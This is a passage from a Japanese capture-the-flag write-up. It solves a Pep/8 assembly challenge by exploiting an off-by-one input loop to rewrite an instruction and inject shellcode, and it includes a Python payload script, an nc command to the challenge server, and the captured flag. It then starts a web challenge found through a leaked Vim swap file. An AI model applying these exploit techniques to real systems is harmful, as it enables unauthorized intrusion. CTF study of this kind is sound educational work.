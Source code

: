 `CHARO` や `DECO`、`STRO` のような特徴的な命令でググってみると、これは [Pep/8](http://computersystemsbook.com/4th-edition/pep8/) のアセンブリであると分かりました。

[Pep-8 Reference](https://www.csc.depauw.edu/~bhoward/courses/1112Fall/csc231/Pep-8%20Reference.pdf) というチートシートを参考に調べていきましょう。

このアセンブリには数値の入力部分に脆弱性があり、100 回で止めるべきところを 101 回まで行えるようになっているため、`tab` の直後にある 2 バイト (`read: LDX 0,i` の部分) を書き換えることができてしまいます。

`(100 個の適当な数値) 51455 0` を入力することで `LDX 0,i` の先頭 2 バイトを `C8 FF` にでき、この命令を `LDX 0xff00,i` にしてしまうことができます。これによって `DECI tab,x` (`x` は オペランド + `i` レジスタを意味する) が `tab - 256`、つまりメモリの `1` 以降に書き込まれるようになるため、より多くの命令を実行させることができそうです。 

あとは `flag` を `STRO` で出力させる入力を作ってみましょう。

```python
payload = []
payload.extend([0x1234] * (100 - len(payload)))
payload.append(0xC8ff) # LDX 0xff00, i
print ' '.join(str(x) for x in payload) + ' 0'

shellcode = 'ffffffffff410227' # ...; STRO 0x227, d
payload = []
for i in range(0, len(shellcode), 4):
  payload.append(int(shellcode[i:i+4], 16))
print ' '.join(str(x) for x in payload) + ' 0'
```

```
$ python2 solve.py | nc 159.203.38.169 5684
*********************************
* Please enter lists of numbers.*
* Each list is terminated by 0. *
* The program ends when a list  *
* is empty (only has a 0).      *
* Example: 1 2 3 0 4 5 0 0.     *
********************************
-6833
0
FLAG{I_D0nt_Th1k_S0m30n_PwN3d_Pep8_B3f0r}
```

フラグが得られました。

```
FLAG{I_D0nt_Th1k_S0m30n_PwN3d_Pep8_B3f0r}
```

## [Web 100] Date 1

与えられた URL にアクセスすると、入力したフォーマットで日時を出力してくれるサービスが表示されました。

ページの下部に `Proudly coded with Vim the editor` とあったため、Vim のスワップファイルが生成されているのではと考えて `/.index.php.swp` にアクセスするとファイルがダウンロードできました。

これを復元すると以下のようなコードが得られました。
